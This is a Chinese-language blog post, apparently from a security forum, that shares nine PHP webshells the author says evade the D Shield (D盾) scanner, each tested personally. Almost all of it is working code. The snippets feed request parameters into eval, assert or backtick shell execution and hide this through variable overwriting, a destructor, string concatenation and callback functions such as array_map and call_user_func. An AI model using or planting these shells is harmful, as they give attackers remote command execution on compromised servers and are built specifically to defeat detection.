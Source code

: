 # 过D盾webshell分享

## **0x00 前言**

最近在测试过程中遇到了D盾，悲催的发现所有过D盾的webshell都被查杀了。因此就在网上搜索了一些之前可以过D盾的shell，然后将其做了一些变形（有一些shell没有更改），使其可以过D盾。本次一共奉献上9个可过D盾的shell，全部亲测可过。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122204613-b3a5f794-1e43-1.png)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122204843-0ca7b9fe-1e44-1.png)

## **0x01 extract 变量覆盖过D盾**

```text
<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205019-45fd4624-1e44-1.png)

## **0x02 parse\_str 变量覆盖过D盾**

```text
<?php  $a=1;$b="a=".$_GET['a'];parse_str($b);print_r(`$a`)?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205139-75f68bc4-1e44-1.png)

## **0x03 \_\_destruct 析构函数过D盾**

```text
<?php 

class User
{
  public $name = '';

  function __destruct(){
    eval("$this->name");
  }
}

$user = new User;
$user->name = ''.$_POST['name'];
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205332-b93e808a-1e44-1.png)

## **0x04 null 拼接过D盾**

```text
<?php

$name = $_GET['name'];

$name1=$name2= null;

eval($name1.$name2.$name);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205456-eb31176a-1e44-1.png)

## **0x05 '' 拼接过D盾**

```text
<?php

$name = $_GET['name'];

$name1=$name2= '';

eval($name1.$name2.$name);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205654-31717666-1e45-1.png)

## **0x06 '' null 拼接过D盾**

```text
<?php
$a = $_GET['a'];
$c = null;
eval(''.$c.$a);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205813-609b9c82-1e45-1.png)

## **0x07 array\_map函数过D盾**

```text
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['x']);
array_map($a123,$a123 = $x123 );
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210048-bd5033a2-1e45-1.png)

## **0x08 call\_user\_func\_array函数过D盾**

```text
<?php

function a(){
     return 'assert';
}
$a=a();
$aa = array($_GET['x']);
call_user_func_array($a,$a=$aa);
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210154-e4267694-1e45-1.png)

## **0x09 call\_user\_func函数过D盾**

```text
<?php
function a(){
     return 'assert';
}
$a=a();
$aa=$_GET['x'];
call_user_func($a,$a=$aa);
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210308-10a09592-1e46-1.png)

